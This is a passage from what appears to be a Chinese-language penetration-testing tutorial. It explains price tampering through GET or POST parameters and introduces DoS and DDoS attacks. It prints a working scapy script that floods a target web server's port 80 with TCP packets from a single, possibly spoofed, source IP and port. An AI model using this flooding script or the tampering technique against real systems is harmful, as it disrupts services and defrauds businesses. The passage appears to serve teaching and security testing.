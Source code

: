查看前面屏幕截图中的矩形框。价格`60`写入网页，但价格`600`取自数据库。如果使用`GET`方法，则可以通过 URL 篡改来更改价格`60`。价格可以由`60`改为`6`。这将严重影响业务。在白盒测试中，客户端向您提供源代码，您可以分析这些代码，但在黑盒测试中，您必须使用攻击来执行测试。如果使用了`POST`方法，您可以使用 Mozilla 插件篡改数据（[https://addons.mozilla.org/en-US/firefox/addon/tamper-data/](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/) 用于参数篡改。您必须手动完成，因此不需要使用 Python 编程。

# 介绍 DoS 和 DDoS

在本节中，我们将讨论一种最致命的攻击，称为拒绝服务攻击。此攻击的目的是消耗机器或网络资源，使其无法供目标用户使用。通常，攻击者在每次其他攻击失败时使用此攻击。这种攻击可以在数据链路、网络或应用层进行。通常，web 服务器是黑客的目标。在 DoS 攻击中，攻击者向 web 服务器发送大量请求，目的是消耗网络带宽和机器内存。在**分布式拒绝服务**（**DDoS**攻击中，攻击者从不同 IP 发送大量请求。为了实施 DDoS 攻击，攻击者可以使用特洛伊木马或 IP 欺骗。在本节中，我们将进行各种实验以完成我们的报告。

# 单 IP，单端口

在这种攻击中，我们使用单个 IP（可能是伪造的）和单个源端口号向 web 服务器发送大量数据包。这是一种非常低级的 DoS 攻击，将测试 web 服务器的请求处理能力。

以下是`sisp.py`的代码：

```py
from scapy.all import *
src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")
srcport = int(raw_input("Enter the Source Port "))
i=1
while True: 
  IP1 = IP(src=src, dst=target)
  TCP1 = TCP(sport=srcport, dport=80)
  pkt = IP1 / TCP1
  send(pkt,inter= .001)
  print "packet sent ", i
  i=i+1
```

我使用 scapy 编写了这段代码，希望您熟悉这段代码。前面的代码要求三件事：源 IP 地址、目标 IP 地址和源端口地址。

让我们检查攻击者机器上的输出：

![](img/9f703009-3f39-4ce3-bf68-e2900bcb5957.png)
